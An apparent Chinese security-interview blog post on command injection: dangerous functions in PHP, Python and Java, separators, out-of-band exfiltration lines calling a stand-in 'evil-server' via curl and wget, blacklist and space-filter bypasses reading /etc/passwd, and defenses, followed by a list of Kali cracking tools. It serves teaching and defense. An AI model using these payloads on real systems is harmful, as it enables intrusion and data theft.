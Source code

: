 
--- 
title:  【网络安全面试题】—如何注入攻击Java Python PHP等主流语言 
tags: []
categories: [] 

---
## 4.5. 命令注入

### 4.5.1. 简介

命令注入通常因为指Web应用在服务器上拼接系统命令而造成的漏洞。

该类漏洞通常出现在调用外部程序完成一些功能的情景下。比如一些Web管理界面的配置主机名/IP/掩码/网关、查看系统信息以及关闭重启等功能，或者一些站点提供如ping、nslookup、提供发送邮件、转换图片等功能都可能出现该类漏洞。

### 4.5.2. 常见危险函数

#### 4.5.2.1. PHP
- system- exec- passthru- shell_exec- popen- proc_open
#### 4.5.2.2. Python
- system- popen- subprocess.call- spawn
#### 4.5.2.3. Java
- java.lang.Runtime.getRuntime().exec(command)
### 4.5.3. 常见注入方式
- 分号分割- `||` `&amp;&amp;` `&amp;` 分割- `|` 管道符- `\r\n` `%d0%a0` 换行- 反引号解析- `$()` 替换
### 4.5.4. 无回显技巧
- bash反弹shell- DNS带外数据<li> http带外 
  <ul>- `curl http://evil-server/$(whoami)`- `wget http://evil-server/$(whoami)`
### 4.5.5. 常见绕过方式

#### 4.5.5.1. 空格绕过
- `&lt;` 符号 `cat&lt;123`- `\t` / `%09`- `${IFS}` 其中{}用来截断，比如cat$IFS2会被认为IFS2是变量名。另外，在后面加个$可以起到截断的作用，一般用$9，因为$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串
#### 4.5.5.2. 黑名单绕过
- `a=l;b=s;$a$b`- base64 `echo "bHM=" | base64 -d`- `/?in/?s` =&gt; `/bin/ls`- 连接符 `cat /etc/pass'w'd`- 未定义的初始化变量 `cat$x /etc/passwd`
#### 4.5.5.3. 长度限制绕过

上面的方法为通过命令行重定向写入命令，接着通过ls按时间排序把命令写入文件，最后执行 直接在Linux终端下执行的话,创建文件需要在重定向符号之前添加命令 这里可以使用一些诸如w,[之类的短命令，(使用ls /usr/bin/?查看) 如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向 而在php中 , 使用 shell_exec 等执行系统命令的函数的时候 , 是不存在标准输入流的，所以可以直接创建文件

### 4.5.6. 常用符号

#### 4.5.6.1. 命令分隔符
- `%0a` / `%0d` / `\n` / `\r`- `;`- `&amp;` / `&amp;&amp;`
#### 4.5.6.2. 通配符
- `*` 0到无穷个任意字符- `?` 一个任意字符- `[ ]` 一个在括号内的字符，e.g. `[abcd]`- `[ - ]` 在编码顺序内的所有字符- `[^ ]` 一个不在括号内的字符


### 4.5.7. 防御
- 不使用时禁用相应函数- 尽量不要执行外部的应用程序或命令- 做输入的格式检查<li> 转义命令中的所有shell元字符 
  <ul>- shell元字符包括 `#&amp;;`,|*?~&lt;&gt;^()[]{}$\`
## 【工具推荐】

 【kali渗透测试工具】无线信号搜索工具_kali更新

【kali渗透测试工具】inssider信号测试软件_kali常用工具

【kali渗透测试工具】MAC地址修改工具 保护终端不暴露

【kal渗透测试工具】脚本管理工具 php和jsp页面 接收命令参数 在服务器端执行

【kali渗透测试工具】上网行为监控工具       

【kali渗透测试工具】抓包工具Charles Windows64位 免费版

【kali常用工具】图印工具stamp.zip

【kali常用工具】brutecrack工具[WIFIPR中文版]及wpa/wpa2字典



【kali常用工具】EWSA 5.1.282-破包工具

【kali常用工具】Realtek 8812AU KALI网卡驱动及安装教程

## 推荐阅读

### **python及安全系列**

**<strong><strong><strong>**</strong></strong></strong>

**<strong><strong><strong>**</strong></strong></strong>

**<strong><strong><strong>**</strong></strong></strong>

**<strong><strong><strong>**</strong></strong></strong>

**<strong><strong><strong>**</strong></strong></strong>  

### **pygame系列文章**

**<strong><strong><strong>**</strong></strong></strong>

**<strong><strong><strong>**</strong></strong></strong>

**<strong><strong><strong>**</strong></strong></strong>

**<strong><strong><strong>**</strong></strong></strong>

<img alt="" height="625" src="https://img-blog.csdnimg.cn/20210607120133619.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MjM1MDIxMg==,size_16,color_FFFFFF,t_70" width="351">
